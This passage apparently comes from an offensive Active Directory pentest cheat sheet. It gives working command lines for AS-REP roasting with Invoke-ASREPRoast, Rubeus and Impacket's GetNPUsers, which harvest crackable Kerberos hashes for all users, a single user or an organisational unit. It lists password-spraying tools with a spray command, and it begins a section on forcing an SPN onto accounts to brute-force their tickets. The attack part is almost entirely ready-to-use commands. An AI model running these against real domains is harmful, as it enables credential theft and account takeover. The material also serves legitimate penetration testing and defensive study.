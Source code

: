 Get any ASREPRoastable Users hashes:

```text
Invoke-ASREPRoast -Verbose
```

Using Rubeus:

Trying the attack for all domain users

```text
Rubeus.exe asreproast /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
```

ASREPRoast specific user

```text
Rubeus.exe asreproast /user:<username> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
```

ASREPRoast users of a specific OU \(Organization Unit\)

```text
Rubeus.exe asreproast /ou:<OUName> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
```

Using Impacket:

Trying the attack for the specified users on the file

```text
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -outputfile <FileName>
```

### Password Spray Attack

If we have harvested some passwords by compromising a user account, we can use this method to try and exploit password reuse on other domain accounts.

**Tools:**

* [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
* [Invoke-CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray)
* [Spray](https://github.com/Greenwolf/Spray)

  \*\*\*\*

{% embed url="https://github.com/ZilentJack/Spray-Passwords/blob/master/Spray-Passwords.ps1" %}

We can use this PoC script to do a password spray attack:

```text
.\Spray-Passwords.ps1 -Pass password -Admin
```

### **Force Set SPN**

_What is this?: If we have enough permissions -&gt; GenericAll/GenericWrite we can set an SPN on a target account, request a TGS, then grab its blob and brute force it._
